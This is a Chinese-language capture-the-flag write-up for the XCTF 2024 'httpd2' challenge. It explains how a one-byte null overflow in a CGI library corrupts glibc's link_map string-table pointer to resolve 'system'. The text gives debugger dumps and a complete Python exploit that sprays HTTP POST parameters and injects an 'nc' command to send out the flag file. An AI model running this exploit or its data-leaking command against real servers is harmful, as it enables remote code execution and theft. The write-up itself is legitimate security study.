 ```yaml
---
data: 2024-07-20 16:31
challenge: httpd2
tags:
  - dlresolve
  - spary
---
```


> [!info]
> 题目本身不难，对于线下赛我认为工作量也是很合适的。针对动态链接的攻击非常有趣，是一道好题。
>
> 但是比赛期间我没有解出来（0 解），原因如下：
>
> 1. 题目存在两处漏洞，都是越界写。但是越界 buffer 的附近没有任何数据
> 2. 利用涉及喷射 - 命中的思路，线下赛期间感觉思路比较混乱
> 3. ~~此外就是被本地出了远程爆破半天出不来的 solo 题和虚拟机逆向题折磨得神志不清~~

## Analysis

cgi-bin 目录下一共给了三个文件，其中漏洞只有可能存在于 `libctfc.so`（因为另外两个都过于直白了），其中有用的洞是 `genCookie` 函数里的越界写 0：

```c
v4 = strlen(passwd);
sub_135A(dest, 1024LL, passwd, v4 + 1);
dest[v4] = 0;
```

<details>
<summary> 调试 </summary>

这种题目的调试我一般使用 gdbserver，直接在 docker 里面安装，替换 main.cgi 内容为 `gdbserver 0.0.0.0:1234 ./real.cgi` 即可调试，相关脚本见 [initgdb.sh](./bin/cgi-bin/initgdb.sh)。

</details>

接下来关闭 aslr 进入调试，定位到越界写 0 的基地址位于 `libctfc.so + 0x14300`，这时候可以想到劫持 `libctf.so` 的 `link_map` 中 `l_info[DT_STRTAB]` 地址到恶意布置好的 `fake_strtab` 上即可：

- `link_map` 结构体：
  - [source/elf/link.h#L101](https://elixir.bootlin.com/glibc/glibc-2.35/source/elf/link.h#L101)
  - 通常位于 `GOT + 8` 的位置，包含程序的基址和名字
  - 构成双向链表

```c
struct link_map
  {
    /* These first few members are part of the protocol with the debugger.
       This is the same format used in SVR4.  */

    ElfW(Addr) l_addr;		/* Difference between the address in the ELF
				   file and the addresses in memory.  */
    char *l_name;		/* Absolute file name object was found in.  */
    ElfW(Dyn) *l_ld;		/* Dynamic section of the shared object.  */
    struct link_map *l_next, *l_prev; /* Chain of loaded objects.  */
  };
```

- `_dl_fixup` 中利用 strtab 解析目标函数地址：
  - [source/elf/dl-runtime.c#L49](https://elixir.bootlin.com/glibc/glibc-2.35/source/elf/dl-runtime.c#L49)
  - 这里只是找到 strtab、symtab 等地址，其中再用符号名称在字符数组的偏移 `st_name` 计算出最终的符号字符串地址，传给 `_dl_lookup_symbol_x` 完成解析
  - 因此伪造 strtab 仅需考虑偏移即可

```c
_dl_fixup (struct link_map *l, ElfW(Word) reloc_arg)
{
  const ElfW(Sym) *const symtab
    = (const void *) D_PTR (l, l_info[DT_SYMTAB]);
  const char *strtab = (const void *) D_PTR (l, l_info[DT_STRTAB]);

  const uintptr_t pltgot = (uintptr_t) D_PTR (l, l_info[DT_PLTGOT]);

  const PLTREL *const reloc
    = (const void *) (D_PTR (l, l_info[DT_JMPREL])
		      + reloc_offset (pltgot, reloc_arg));
  const ElfW(Sym) *sym = &symtab[ELFW(R_SYM) (reloc->r_info)];
  const ElfW(Sym) *refsym = sym;
  void *const rel_addr = (void *)(l->l_addr + reloc->r_offset);
  lookup_t result;
  DL_FIXUP_VALUE_TYPE value;

// ...
// L95:
      result = _dl_lookup_symbol_x (strtab + sym->st_name, l, &sym, l->l_scope,
				    version, ELF_RTYPE_CLASS_PLT, flags, NULL);
```

因此题目的意图其实很明显，就是用越界写的 `\x00` 篡改指向 `l_info[DT_STRTAB]` 的指针，命中实现布置好的 `fake_strtab`，其中要求：

- 伪造的 `strtab + 8` 处存放一个指针，指向伪造的字符串数组，其中计算好的偏移上存放 `system\x00`：

```bash
pwndbg> telescope 0x7ffff7e9b000
00:0000│  0x7ffff7e9b000 ◂— 0x3e10
01:0008│  0x7ffff7e9b008 —▸ 0x7ffff7fbc1e0 —▸ 0x7ffff7e97000 ◂— 0x10102464c457f
02:0010│  0x7ffff7e9b010 —▸ 0x7ffff7fd8d30 ◂— endbr64
03:0018│  0x7ffff7e9b018 (printf@got[plt]) —▸ 0x7ffff7e98030 ◂— endbr64
04:0020│  0x7ffff7e9b020 (strcmp@got[plt]) —▸ 0x7ffff7e98040 ◂— endbr64
05:0028│  0x7ffff7e9b028 (getPass@got.plt) —▸ 0x7ffff7e98050 ◂— endbr64
06:0030│  0x7ffff7e9b030 (genCookie@got.plt) —▸ 0x7ffff7e83a5a (genCookie) ◂— endbr64
07:0038│  0x7ffff7e9b038 ◂— 0x7ffff7e9b038
pwndbg> telescope 0x7ffff7fbc1e0
00:0000│  0x7ffff7fbc1e0 —▸ 0x7ffff7e97000 ◂— 0x10102464c457f
01:0008│  0x7ffff7fbc1e8 —▸ 0x7ffff7fbc1d0 ◂— './libctf.so'
02:0010│  0x7ffff7fbc1f0 —▸ 0x7ffff7e9ae10 ◂— 1
03:0018│  0x7ffff7fbc1f8 —▸ 0x7ffff7fbc740 —▸ 0x7ffff7e82000 ◂— 0x10102464c457f
04:0020│  0x7ffff7fbc200 —▸ 0x7ffff7ffe890 —▸ 0x7ffff7fc2000 ◂— jg 0x7ffff7fc2047
05:0028│  0x7ffff7fbc208 —▸ 0x7ffff7fbc1e0 —▸ 0x7ffff7e97000 ◂— 0x10102464c457f
06:0030│  0x7ffff7fbc210 ◂— 0
07:0038│  0x7ffff7fbc218 —▸ 0x7ffff7fbc670 —▸ 0x7ffff7fbc688 ◂— 'libctf.so'
pwndbg>
08:0040│  0x7ffff7fbc220 ◂— 0
09:0048│  0x7ffff7fbc228 —▸ 0x7ffff7e9ae20 ◂— 1
0a:0050│  0x7ffff7fbc230 —▸ 0x7ffff7e9aef0 ◂— 2
0b:0058│  0x7ffff7fbc238 —▸ 0x7ffff7e9aee0 ◂— 3
0c:0060│  0x7ffff7fbc240 ◂— 0
0d:0068│  0x7ffff7fbc248 —▸ 0x7ffff7e9aea0 ◂— 5
0e:0070│  0x7ffff7fbc250 —▸ 0x7ffff7e9aeb0 ◂— 6
0f:0078│  0x7ffff7fbc258 —▸ 0x7ffff7e9af20 ◂— 7
pwndbg> telescope 0x7ffff7e9aea0
00:0000│  0x7ffff7e9aea0 ◂— 5
01:0008│  0x7ffff7e9aea8 —▸ 0x7ffff7e97408 ◂— 0x5f6e6f6d675f5f00
02:0010│  0x7ffff7e9aeb0 ◂— 6
03:0018│  0x7ffff7e9aeb8 —▸ 0x7ffff7e97318 ◂— 0
04:0020│  0x7ffff7e9aec0 ◂— 0xa /* '\n' */
05:0028│  0x7ffff7e9aec8 ◂— 0xa1
06:0030│  0x7ffff7e9aed0 ◂— 0xb /* '\x0b' */
07:0038│  0x7ffff7e9aed8 ◂— 0x18
pwndbg> x/32s 0x7ffff7e97408
0x7ffff7e97408: ""
0x7ffff7e97409: "__gmon_start__"
0x7ffff7e97418: "_ITM_deregisterTMCloneTable"
0x7ffff7e97434: "_ITM_registerTMCloneTable"
0x7ffff7e9744e: "__cxa_finalize"
0x7ffff7e9745d: "checkLogin"
0x7ffff7e97468: "genCookie"
0x7ffff7e97472: "getPass"
```

现在已经明确把一字节 0 写到什么地方了：

- 通过漏洞造成上述 0x7ffff7fbc248 地址上的内容错位，待解析的 strtab 指向
  - 存放了指向
    - 存放伪造了 strtab 内容的字符串数组减去 8 的地址

恰巧我们输入的参数会被解析成字符串数组，放在 `libctfc.so + 0x40c0` 的数组中，这也在 `link_map` 的地址之前，因此是有概率命中的。

## Exploitation

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from lianpwn import *
from pwncli import *

# cli_script()
# set_remote_libc("libc.so.6")
#
# io: tube = gift.io
# elf: ELF = gift.elf
# libc: ELF = gift.libc

context.log_level = "info"
context.arch = "amd64"
context.terminal = ["tmux", "sp", "-h", "-l", "120"]

rl = lambda a=False: io.recvline(a)
ru = lambda a, b=True: io.recvuntil(a, b)
rn = lambda x: io.recvn(x)
s = lambda x: io.send(x)
sl = lambda x: io.sendline(x)
sa = lambda a, b: io.sendafter(a, b)
sla = lambda a, b: io.sendlineafter(a, b)
ia = lambda: io.interactive()
dbg = lambda text=None: gdb.attach(io, text)
i2b = lambda c: str(c).encode()
u32_ex = lambda data: u32(data.ljust(4, b"\x00"))
u64_ex = lambda data: u64(data.ljust(8, b"\x00"))

io = remote("127.0.0.1", 80)

while True:
    try:

        def get_payload(name, passwd, spary_payload):
            payload = b"POST /cgi-bin/main.cgi HTTP/1.1\r\n"
            payload += b"Host: localhost\r\n"
            payload += b"Content-Type: application/x-www-form-urlencoded\r\n"
            payload += b"Connection: close\r\n"

            post_data = b"username=" + name + b"&passwd=" + passwd + spary_payload
            payload += f"Content-Length: {len(post_data)}\r\n".encode()
            payload += b"\r\n"
            payload += post_data
            payload += b"\r\n"
            return payload

        spary_payload = b""
        for i in range(0xC0 + 0x10, 0x8000, 8):
            if ((i - 8) & 0xFFF) == 0xEA0:
                spary_payload += b"&" + b"a" * 0x69 + b"%00system%00"
            else:
                spary_payload += b"&x"

        distance = 0x125F48
        payload = get_payload(
            b"nc -lvp 8888 < ../flag", b"a" * (distance + 2), spary_payload
        )
        s(payload)

        data = rl()
        print(data)
        assert b"500" not in data()

        ia()
    except:
        io.close()
        io = remote("127.0.0.1", 80)


# buf = 0x7ffff7e96300
# target_strtab = 0x7ffff7fbc248
```

测试下来本地在上述构造下 40 次左右就能成功。

---

## References

\[1\] [Official WP - xctf final 2024 httpd2 writeup](https://forum.butian.net/share/3123) . _[noir](https://forum.butian.net/people/32623)_
